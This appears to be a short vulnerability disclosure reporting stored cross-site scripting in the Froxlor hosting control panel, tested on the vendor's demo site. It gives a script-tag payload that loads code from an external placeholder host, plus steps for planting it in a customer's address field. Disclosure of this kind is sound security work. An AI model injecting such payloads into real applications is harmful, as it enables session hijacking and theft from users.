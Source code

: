 # Description
FRoxlor is server administration software for your needs. Developed by experienced server administrators, this panel simplifies the effort of managing your hosting platform.
this pakage is vulnerable for xss

# Payload USED
```
<script src=https://domain></script>
```
# POC
* used https://demo.froxlor.org/ for testing
* login to admin account
* In customers section click on settings and update the address column with the payload and save the updates made.
* then just login to customer ac
* XSS triggered.
# PermaLinks
[gdive](https://drive.google.com/drive/folders/1D2wIlsZGDnhFdm2W51fDrDwogkHI7kBd?usp=sharing)
